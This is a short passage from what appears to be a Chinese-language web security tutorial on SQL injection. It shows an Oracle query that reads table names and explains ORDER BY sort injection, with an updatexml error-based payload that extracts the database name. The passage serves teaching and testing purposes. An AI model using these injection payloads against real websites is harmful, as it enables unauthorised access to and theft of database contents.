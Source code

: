 获取数据库第一个表名：

select+table\_name+from+user\_tables+where+rownum=1

![image.png](assets/1701153934-11578fd2d2182796b0c88b81e635ed47.png)

# 排序注入

在很多 web 站点中，都提供了对前端界面显示数据的排序功能，而实际中 web 站点的排序功能基本都是借助 SQL 语言的`order by`来实现的，其中的`asc`为升序排列；`desc`为降序排列。那么其中大概的 SQL 语句为`SELECT * FROM users ORDER BY 1 desc/asc;`这样。而存在**排序注入**的话，其中可控的便是`desc`/`asc`这个位置。

其中可以用报错盲注：`desc,updatexml(1,concat(0x7e,(database()),0x7e),1)`

![image.png](assets/1701153934-41aa3855c5f837e9acc5503656b6ccbb.png)
